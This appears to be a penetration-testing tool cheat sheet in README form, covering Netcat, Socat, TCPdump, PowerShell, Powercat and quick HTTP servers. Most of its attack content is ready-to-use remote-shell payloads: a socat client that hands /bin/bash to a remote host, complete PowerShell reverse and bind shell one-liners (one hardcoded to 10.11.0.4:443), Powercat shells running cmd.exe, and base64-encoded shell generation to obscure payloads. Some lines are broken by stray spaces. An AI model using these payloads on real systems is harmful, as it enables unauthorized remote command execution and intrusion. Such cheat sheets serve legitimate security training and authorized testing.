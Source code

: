 # Tools

#### :red_circle: Netcat

>The TCP/IP Swiss Army tool is a utility capable of establishing a TCP or UDP connection between two computers, meaning it can write and read through an open port. With the help of the program, files can be transferred and commands can be executed in some instances.

[SANS Netcat Cheatsheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

#### :red_circle: Socat

>Socat is a command-line utility that establishes two bidirectional byte streams and transfers data between them. It is similar to Netcat but has additional useful features.

###### Listener:
```bash
socat -d -d TCP4-LISTEN:$PORT STDOUT
```

###### Client:
```bash
socat TCP4:$IPADDRESS:$PORT EXEC:/bin/bash
```

#### :red_circle: TCPdump

>Command line base Network Analysis Tool. Very useful and good to know if you are on a system that does not have a gui interface.

[TCPDump Cheatsheet](https://www.andreafortuna.org/technology/networking/tcpdump-a-simple-cheatsheet/)

[Daniel Miessler TCPDump Guide](https://danielmiessler.com/study/tcpdump/)

###### Read PCAP files:
```bash
#Filters:
-n src host $IPADDRESS #source IP
-n dst host $IPADDRESS #destination IP
-n port $PORT #Filter port numbers
-nX #print packet data in both HEX and ASCII
-A -n 'tcp[13] = 24' #Show only data packets. "A" stands for ACK packets and "'tcp[13] = 24'" stands for the 14th array of a TCP Packet (flags) where the PSH and ACK flags are set to 1 (00011000).
```

#### :red_circle: PowerShell

###### Downloading files:
```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('$URLOFTHEFILE','$DESTINATIONPATH')"
```

###### Reverse shell (one-liner):

```bash
#Change IP & Port
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

###### Bind shell (one-liner):

```bash
#Change port
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"
```

#### :red_circle: Powercat

> [Powercat](https://github.com/besimorhino/powercat)  is essentially the PowerShell version of Netcat.

First of all ["dot source"](https://ss64.com/ps/source.html) the script in a PowerShell window:

```bash
. .\powercat.ps1
```

###### Reverse shell:

```bash
powercat -c $IPADDRESS -p $PORT -e cmd.exe
```

###### Bind shell:

```bash
powercat -l -p $PORT -e cmd.exe
```

###### Encoded shells:

```bash
#Using the -ge flag we get the payload encoded in base64:
powercat -c $IPADDRESS -p $PORT -e cmd.exe -ge > encodedreverseshell. ps1
powercat -l -p $PORT -e cmd.exe -ge > encodedbindshell.ps1
#Once done, copy the output (base64 text) and execute the following on a PS window:
cat $FILE.ps1 #copy this
powershell.exe -E $BASE64TEXT
```

#### :red_circle: cutycapt

>Command-line utility to take a snapshot of a web page into a variety of vector and bitmap formats.

```bash
#Extension includes: SVG, PDF, PS, PNG, JPEG, TIFF, GIF, and BMP.
cutycapt --url=$URL --out=$FILE.$EXTENSION
```

## Quick HTTP Servers:

```bash
python -m SimpleHTTPServer $PORT
python3 -m http.server $PORT
php -S 0.0.0.0:$PORT
ruby -run -e httpd . -p $PORT
busybox httpd -f -p $PORT
```
